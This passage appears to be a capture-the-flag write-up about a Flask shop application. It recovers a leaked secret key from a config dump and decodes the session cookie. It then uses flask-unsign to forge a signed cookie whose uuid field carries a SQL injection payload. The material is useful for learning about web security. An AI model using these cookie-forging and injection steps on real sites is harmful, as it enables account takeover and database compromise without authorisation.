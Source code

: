 ```bash
'TEMPLATES_AUTO_RELOAD': None,
'MAX_COOKIE_SIZE': 4093,
'RATELIMIT_ENABLED': True,
'RATELIMIT_DEFAULTS_PER_METHOD': False,
'RATELIMIT_SWALLOW_ERRORS': False,
'RATELIMIT_HEADERS_ENABLED': False,
'RATELIMIT_STORAGE_URL': 'memory://',
'RATELIMIT_STRATEGY': 'fixed-window',
'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset',
'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining',
'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit',
'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After',
'UPLOAD_FOLDER': 'static/uploads'
}>
```

I recogonise a ``Secret key``which can be used to sign session cookies. We read
our current cookie from our browser developer tools and use the `` base64`` command to decode the first field:
#### code-decode
```bash
echo -n eyJjYXJ0X2l0ZW1zIjpbXSwidXVpZCI6IjhiMWNmM2NkLTE3YjYtNDU1ZC1iMjY5LTUwYzdlZTZhZWIxMyJ9 | base64 -d 
```

![[cart.png]]

The session data object contains two fields, namely ``cart_items`` and ``uuid`` . When opening the page as a logged in user, we see that the username is displayed within a "logged in" message. 

![[config.png]]

This does  not appear to be vulnerable to SSTI, but we can attempt other types of injection; for example, assuming the ``username ``is retrieved from a ``database``by querying the ``uuid parameter`` in our session cookie, we can test for ``SQL injection``.
We add a simple ``SQL injection payload`` to our ``uuid ``and use the ``flask-unsign ``tool to sign a valid session cookie by providing the ``secret key`` recovered earlier:We first install flask_unsign:
#### code-flask_unsign
```bash
pip3 install flask_unsign
```

#### code-sign a valid cookie
```bash
flask-unsign --sign --cookie "{\"cart_items\":[],\"uuid\":\"71f57eec-d494-455a-9c8f-3398c67ed5c7' or 1=1 -- -\"}" --secret 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942'
```

![[1-11.png]]

After replacing our current ``session cookie`` with the one we just generated, we notice the username has changed:
